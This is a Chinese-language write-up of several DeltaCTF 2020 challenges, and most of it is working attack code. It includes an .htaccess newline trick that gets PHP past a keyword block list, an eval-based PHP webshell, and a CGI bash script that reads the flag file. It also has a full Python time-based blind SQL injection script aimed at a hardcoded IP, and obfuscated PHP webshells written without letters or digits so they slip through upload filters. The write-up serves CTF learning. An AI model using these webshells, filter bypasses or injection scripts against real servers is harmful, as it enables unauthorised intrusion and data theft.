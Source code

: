 # DeltaCTF 2020

## Checkin

主要是``.htaccess``换行符绕过吧，比赛的时候没反应过来...

ban了 ``perl|pyth|ph|auto|curl|base|>|rm|ruby|openssl|war|lua|msf|xter|telnet``

但是``.htaccess``支持换行符

所以像这样就行

```
AddHandler application/x-httpd-p\
hp .jpg
```

然后短标签不闭合可以执行来绕过

```
<?=eval($_REQUEST['eki']);
```

虽然只有一句但是没有``?>``还是得加分号

如果服务器没开短标签的话

可以加个

```
p\
hp_value short_open_tag 1
```

然后其实这题预期应该是CGI的,过滤了``perl|ruby``这些，但是可以利用``bash``

.htaccess

```
Options +ExecCGI
AddHandler cgi-script .sh
```

exp.sh

```bash
#!/bin/bash
echo "Content-Type: text/plain"
echo ""
cat /flag
exit 0
```

## Mixture

这题比赛时只做了一半，后面因为水平太菜就做不下去了

前半部分主要是在于注入点寻找吧

用除admin的账号名登陆F12看到有``<!--orderby-->``的注释

然后尝试注一下

发现sleep被ban了，语句语法错误也么得回显，考虑其他方法盲注

```python
#coding=utf-8
import requests
import threading
import string
import time
import sys
pt = '{}0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_-+[]?<>@!#$%^&*~'
url="http://134.175.185.244/member.php"
headers = {"Content-Type": "application/x-www-form-urlencoded"}

sql="database()"

def blindtest(start,end):
    ret=""
    for i in range(start,end):
        l=32
        r=128
        while(l+1<r):
            mid=(l+r)/2
            payload="and case when (ascii(substr({},{},1))>{}) then (benchmark(1000000,sha(1))) else 2 end".format(sql,i,mid)
            #print payload
            cookies = {
                "PHPSESSID":'k4vs406ichnlsfqpt1brpo53nb'
            }
            param = {
                "orderby":payload,
            }
            print param
            req=requests.get(url,params=param,cookies=cookies)
            start = time.time()
            print req.text
            if(time.time()-start>4):
                l=mid
            else :
                r=mid
        if(chr(r) not in pt):
            break
        ret=ret+chr(r)
        sys.stdout.write("[-]{0} Result : -> {1} <-\r".format(threading.current_thread().name,ret))
        sys.stdout.flush()
    print(threading.current_thread().name+"[+]Result : ->"+ret+"<-")

blindtest(1,2000)
```

## Hard_Pentest_1

这题后面的渗透部分没有做出 msf还是不大会用

前面传马的部分利用了无数字字母shell还有后缀字符大小写绕过（winodws环境）

利用php字符串执行函数来构造

比如这个phpinfo

```php
<?=[$_=[],
$_=@"$_",
$_=$_['!'=='@'],
$__=$_,
$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$___=$__,//P

$__=$_,
$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$___.=$__,//H

$__=$_,
$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$___.=$__,//P

$__=$_,
$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$___.=$__,//I

$__=$_,
$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$___.=$__,//N

$__=$_,
$__++,$__++,$__++,$__++,$__++,
$___.=$__,//F

$__=$_,
$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$___.=$__,//O


$___()]?>
```

然后可以利用这个传shell

```php
<?=[$_=[],
$_=@"$_",
$_=$_['!'=='@'],
$____='_',
$__=$_,
$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$____.=$__,
$__=$_,
$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$____.=$__,
$__=$_,
$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$____.=$__,
$__=$_,
$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$____.=$__,
$_=$$____,
$_["__"]($_["_"])]?>

```

然后就可以生成小马了

## Life

binwalk 拿到图片和压缩

根据名字联想到Conway's Life Game (这脑洞...)

发现有二维码生成，拿到压缩包密码

txt提示filp

filp->base64->filp->hex拿到flag

